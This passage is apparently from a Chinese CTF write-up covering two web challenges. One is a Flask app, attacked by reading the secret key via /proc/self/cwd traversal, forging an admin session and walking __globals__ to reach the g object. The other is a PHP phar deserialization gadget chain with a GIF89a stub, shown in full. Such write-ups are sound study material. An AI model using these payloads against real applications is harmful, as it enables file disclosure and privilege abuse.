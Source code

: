 再有就是我没想到hint里的路径和真实路径不同，感觉这就是专门用来误导的，而我确实不知道`/proc`目录查看真实路径的姿势，所以赛中真的懵了，膜ak web的大佬，看来开发和安全需要的知识差别还是不小

所以这里通过`/static?file=/proc/self/cwd/app/__init__.py`读到密钥，然后读视图文件的代码，先是用`github`的脚本伪造客户端`Session`（我最开始使用脚本伪造的session一直有问题，后来发现是我的`itsdangerous`库只有0.2.3版本一直没更新，而现在都是1.x了），从而获得`admin`身份和1e10+的钱

然后就是一个通过实例、类、它们的方法、全局命名空间的变量跳转访问了（因为这个题限制了函数调用）：

这里我们可以传入`g.u.{}`，来访问`g.u`的成员，`g`变量是`flask`四种全局变量之一，它一般是用来保存请求的全局临时变量，各请求间的值是独立的，它处于`current_app`同一个全局空间下，所以这里我们先获取`__globals__`，但只有函数有这个魔术变量（知道它里面有`__doc__`这种成员变量就很好理解了），所以按题目hint，先访问当前请求用户`g.u`的`save`方法：

```python
查看当前全局变量：
save.__globals__

访问SQLAlchemy实例engine：
[db]

再次查看全局
.__init__.__globals__

访问current_app
[current_app]

访问与g变量关联的函数before_request/after_request
.after_request.__globals__

查看g对象所有成员变量
[g].__dict__
```

完整payload：

`field=save.__globals__[db].__init__.__globals__[current_app].before_request.__globals__[g].__dict__`

***

### Simple PHP

这道题我开始读到`class.php`时还在想这么多类咋没用到，之后听别人题型才知道反序列化不一定需要`serialize`，早就听说今年`BlackHat`大会爆出的`phar`协议漏洞而一直没实践

知道该干嘛后就很简单了，通过一组类的魔术方法构造利用链：

```php
$o3 = new Test();
$o3 -> params = array();
$o3 -> params["source"] = "/var/www/html/f1ag.php";
$o2 = new Show("hacked");
$o2 -> str = array();
$o2 -> str['str'] = $o3;
$o1 = new C1e4r($o2);

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
$phar->setMetadata($o1);
$phar->addFromString("f1ag.php", "test");
$phar->stopBuffering();
```
